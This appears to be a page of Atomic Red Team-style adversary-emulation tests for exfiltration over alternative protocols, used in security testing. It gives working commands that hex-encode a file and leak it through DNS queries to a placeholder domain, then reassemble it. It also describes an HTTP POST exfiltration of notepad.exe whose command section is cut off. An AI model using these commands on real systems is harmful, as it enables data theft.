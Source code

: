 ## Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS
Exfiltration of specified file over DNS protocol.

**Supported Platforms:** Freebsd, Linux


**auto_generated_guid:** c403b5a4-b5fc-49f2-b181-d1c80d27db45





#### Run it with these steps! 
1. On the adversary machine run the below command.

    tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches ".domain"" >> received_data.txt

2. On the victim machine run the below commands.

    xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done
    
3. Once the data is received, use the below command to recover the data.

    cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r







<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP
Exfiltration of specified file over HTTP.
Upon successful execution, powershell will invoke web request using POST method to exfiltrate notepad.exe to a remote address (default http://127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 6aa58451-1121-4490-a8e9-1dada3f1c68c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent | string | http://127.0.0.1|


#### Attack Commands: Run with `powershell`! 
